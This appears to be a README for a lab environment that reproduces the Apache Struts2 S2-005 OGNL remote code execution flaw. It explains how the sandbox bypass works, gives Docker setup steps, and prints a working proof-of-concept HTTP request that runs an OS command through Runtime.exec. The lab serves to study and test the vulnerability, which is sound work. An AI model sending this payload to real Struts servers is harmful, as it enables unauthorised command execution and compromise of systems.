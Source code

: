# S2-005 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.1.8.1

Details: http://struts.apache.org/docs/s2-005.html

## Reference

Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)

> s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.

XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

Process follows:

- In S2-003 Use `\u0023` to bypass struts2's filter `#`
- After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again

## Setup

Run the following commands to start the environment

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Remote code execution POC (don't have display echo, use `@` instead space):

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

Some others POC will return 400 in tomcat8.Because the characters `\`, `"` can't be placed directly in the path, we need urlencode it before send. 

This POC don't have display, used OGNL's Expression Evaluation:

![](1.jpeg)

`(aaa)(bbb)`, `aaa` is used as the OGNL expression string, and `bbb` is the root object of the expression. Therefore, if we needs to execute code like `aaa`, it needs to be wrapped in quotation marks, and the `bbb` position can directly place the Java statement. `(aaa)(bbb)=true` is actually `aaa=true`.

However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.
